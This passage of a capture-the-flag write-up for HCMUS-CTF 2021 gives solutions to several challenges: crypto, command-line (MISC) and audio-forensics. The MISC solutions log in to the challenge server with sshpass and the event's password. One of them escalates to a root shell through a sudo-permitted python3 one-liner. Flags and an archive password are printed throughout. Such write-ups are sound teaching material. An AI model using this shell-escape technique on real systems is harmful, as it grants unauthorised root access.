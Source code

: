 ```
                break

#Flag: HCMUS-CTF{discrete_log_is_easy_on_permutation_group}
```

----



# <a name="MISC"></a>MISC

### Dodge

```
sshpass -p "hcmus-ctf" ssh ctf@61.28.237.24  -p 30400 -t "bash --noprofile" ; cat flag.txt;
```

> HCMUS-CTF{You_know_some_command_line_stuff}

### StrangerThing

```
 sshpass -p "hcmus-ctf" ssh ctf@61.28.237.24  -p 30401
 (cat flag1.txt ;cat <-'flag 2.txt' ;cat secret/.flag3.txt) | tr '\n' ' ' | sed 's/ //g'
```

> HCMUS-CTF{this_is_used_to_test_linux_command_line}

### Escape me

```
sshpass -p "hcmus-ctf" ssh ctf@61.28.237.24  -p 30402
sudo /usr/bin/python3 -c "import os; os.system('/bin/bash')"
cat flag.txt
```

> HCMUS-CTF{privilege_escalation_is_fun!!!}

----

# <a name="FORENSIC"></a>FORENSIC

### NiceEars

* 1.Sử dụng `audacity` hoặc `Sonic Visualiser` để phân tích đoạn audio đính kèm.

  Với `Sonic Visualiser` làm theo các bước sau để xem [Spectrogram](https://en.wikipedia.org/wiki/Spectrogram) của dải tần số : `Layer -> Addspectrogram -> channel1`

  ![](https://kcsc-club.github.io/images/hcmus-ctf-2021/for/1.PNG)

2.Sử dụng mật khẩu: `M0nK3y_doNkeY` để trích xuất tệp nén và nhận được cờ.

> HCMUS-CTF{Just_give_you_some_points_from_audio_stuff}
